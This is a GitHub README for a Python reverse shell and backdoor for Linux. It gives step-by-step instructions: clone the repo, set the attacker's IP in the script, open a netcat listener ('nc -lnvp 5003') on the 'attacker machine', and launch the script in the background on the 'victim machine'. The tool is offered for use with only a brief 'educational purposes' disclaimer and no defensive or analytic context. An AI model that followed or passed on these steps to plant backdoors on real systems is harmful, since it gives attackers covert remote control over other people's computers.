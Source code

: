 # ReverseShell | Written In ![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
- A python backdoor/reverseshell for linux.

![backd](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use?

Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```

After successful cloning:
```
cd ReverseShell
```

Or download the zip:
- https://github.com/Keyj33k/ReverseShell/archive/refs/heads/main.zip

## You will found a file called >> reverseshell.py:

- Now you need to change the ip in the script.

## After saving your settings you can test it:

- On the attacker machine:
```
nc -lnvp 5003
```

- or use the silentHill listener:
```
python3 silentHill.py
```

- On the vivtim machine:
```
python3 reverseshell.py &
```
# Explained:

![listener](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/reverseshell.jpeg)

Note:
- This tool is only for educational purposes. 
- I'm not responsible for your actions. 
- Don't hack anyone without their permissions.
- With great force follows great responsibility.

# Thank you
![Instagram](https://img.shields.io/badge/instagram-%23E4405F.svg?style=for-the-badge&logo=Instagram&logoColor=white) 
- https://www.instagram.com/keyjeek/
---
![Twitter](https://img.shields.io/badge/twitter-%231DA1F2.svg?style=for-the-badge&logo=Twitter&logoColor=white)
- https://twitter.com/keyjeek
---
![GitHub](https://img.shields.io/badge/github-%23121011.svg?style=for-the-badge&logo=github&logoColor=white)
- https://github.com/Keyj33k
